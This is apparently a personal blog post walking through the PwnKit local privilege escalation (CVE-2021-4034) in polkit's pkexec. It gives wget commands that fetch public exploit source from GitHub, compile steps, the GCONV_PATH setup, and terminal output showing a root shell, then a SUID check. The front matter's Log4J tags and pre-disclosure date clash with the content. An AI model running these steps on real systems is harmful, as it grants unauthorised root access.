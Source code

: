 ```yaml
---
title: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034)
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2021-12-25 11:33:00 +0200
categories: [Blogging]
tags: [CVE-2021-44228, Log4J]
math: true
mermaid: true
---
```

**PwnKit (CVE-2021-4034) - Local Privilege Escalation** 
This will be a short one. It's about local privilege escalation vulnerability (CVE-2021-4034) with public available exploit named _PwnKit._

Original Post: [https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)

> Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. It provides an organized way for non-privileged processes to communicate with privileged ones. \[...] It is also possible to use polkit to execute commands with elevated privileges using the command pkexec followed by the command intended to be executed (with root permission)." (Wikipedia)


Since _pkexec_ is installed on almost every Linux system and _pkexec_ almost always has SUID-bit set it means that vulnerability that is "that" trivial to exploit (...once it's known how...) is really bad.&#x20;

So let's try one of the exploits available on GitHub: [https://github.com/berdav/CVE-2021-4034](https://github.com/berdav/CVE-2021-4034)

```
[luka@localhost shm]$ wget https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/pwnkit.c
...
Saving to: ‘pwnkit.c’

100%[===================================================================================================================================================================================================>] 266         --.-K/s   in 0s

2022-01-27 07:14:47 (15.8 MB/s) - ‘pwnkit.c’ saved [266/266]

[luka@localhost shm]$ wget https://raw.githubusercontent.com/berdav/CVE-2021-4034/main/cve-2021-4034.c
...
Saving to: ‘cve-2021-4034.c’

100%[===================================================================================================================================================================================================>] 274         --.-K/s   in 0s

2022-01-27 07:14:51 (10.9 MB/s) - ‘cve-2021-4034.c’ saved [274/274]
```

After having _cve-2021-4034.c_ and _pwnkit.c_ on the system. Root is only few commands away. (Exploit needs compilation!). Its also possible to use _Makefile_ to make it even more easier (kudos to [https://github.com/berdav](https://github.com/berdav)).

```
[luka@localhost shm]$ cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
[luka@localhost shm]$ cc -Wall cve-2021-4034.c -o cve-2021-4034
[luka@localhost shm]$ echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
[luka@localhost shm]$ mkdir -p GCONV_PATH=.
[luka@localhost shm]$ cp /usr/bin/true GCONV_PATH=./pwnkit.so:.
[luka@localhost shm]$
```

So that's it. Exploit is compiled and everything has been set (read about the exploit on the original page for more information how it works)

```
[luka@localhost shm]$ whoami
luka
[luka@localhost shm]$ id
uid=1000(luka) gid=1000(luka) groups=1000(luka),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
[luka@localhost shm]$ ./cve-2021-4034
sh-4.2# id
uid=1000(luka) gid=1000(luka) euid=0(root) groups=1000(luka),10(wheel) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
sh-4.2# whoami
root
```

So that's it. Trivial to exploit - check if your system is exploitable (if it has SUID bit set on pkexec binary).

```
[luka@localhost shm]$ find / -perm /4000 2>/dev/null
...
/usr/bin/pkexec
...
```
...yes you can add _| grep pkexec_ at the end